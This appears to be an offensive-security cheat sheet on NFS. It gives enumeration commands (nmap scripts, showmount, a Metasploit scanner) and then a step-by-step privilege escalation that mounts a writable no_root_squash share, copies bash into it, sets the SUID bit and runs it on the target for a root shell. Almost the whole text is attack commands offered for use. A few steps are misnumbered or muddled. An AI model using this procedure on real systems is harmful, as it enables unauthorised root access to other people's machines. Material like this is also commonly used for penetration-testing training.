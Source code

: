## Enumeration

    nmap --script nfs-ls,nfs-showmount,nfs-statfs <IP>
    showmount -e <IP>

##### Metasploit

    use auxiliary/scanner/nfs/nfsmount

### 1) Create a directory on the attacking machine

    sudo mkdir /mount/

### 2) Mount to the directory just created

    sudo mount -t nfs <IP>:<PATH> /mount/ -o nolock

    ls -la /mount/

### 3) Confirm mount

    mount <PATH>

# Example:

## 

    cat /etc/exports

# Critical element: "no_root_squash" on a writable share (SUID bit set file create) or fsid=0/fsid=root

### 1: Check the name of the folder

    showmount -e IP

### 2: Create directory

    mkdir /tmp/backups

### 3: Mount directory

    mount -o rw IP:/writable_share /tmp/backups

### 4: Copy wanted shell

    cp /bin/bash .

### 6: Give SUID bit

    chmod +s bash

### 7: Execute from target machine

    ./bash
